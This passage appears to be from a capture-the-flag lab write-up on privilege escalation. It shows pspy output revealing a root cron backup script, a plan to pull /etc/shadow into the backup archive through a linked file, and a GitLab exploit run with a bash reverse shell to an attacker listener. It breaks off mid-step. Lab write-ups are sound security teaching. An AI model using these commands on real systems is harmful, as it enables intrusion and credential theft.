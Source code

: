 Now lets find a way to escalate priv 

I'll upload pspy to the target to check for process running

```
2023/01/27 01:22:01 CMD: UID=0    PID=86232  | /usr/sbin/CRON -f 
2023/01/27 01:22:01 CMD: UID=0    PID=86234  | bash /opt/backups/backup.sh 
2023/01/27 01:22:01 CMD: UID=0    PID=86233  | /bin/sh -c bash /opt/backups/backup.sh 
```

We see a cron is running a script as root in the /opt/backups directory

And on checking the script 

```
coaran@breakout:/opt/backups$ ls
backup.sh  log_backup.zip
coaran@breakout:/opt/backups$ cat backup.sh 
/usr/bin/zip -r /opt/backups/log_backup.zip /srv/gitlab/logs/*
coaran@breakout:/opt/backups$
```

We see what it does 

```
1. It compresses the whole file in /srv/gitlab/logs/ to a single backup.zip file
```

We don't have permission to edit the script

But what we can do is this 

Create a symbolic link to a file in the `/srv/gitlab/logs` directory then when the cron runs it will zip the content of the files including the file we linked it to i.e `ln /etc/shadow file`

But unfortunately we don't have write access in that directory damn 🤧

```
coaran@breakout:~$ cd /srv/gitlab/logs/
coaran@breakout:/srv/gitlab/logs$ echo test > lol
-bash: lol: Permission denied
coaran@breakout:/srv/gitlab/logs$ 
```

Now if we remember we did have a user in the container who had read/write access over the gitlab directory

So i'll run the exploit and get shell as user `git`

```
┌──(mark__haxor)-[~/_/B2B/Pg/Practice/Breakout]
└─$ python3 exploit.py -u michelle -p michelle -t http://192.168.168.182/ -c "bash -c 'bash -i >& /dev/tcp/192.168.45.5/1337 0>&1'"
[1] Authenticating
Successfully Authenticated
[2] Creating Payload 
[3] Creating Snippet and Uploading
```

On the listener
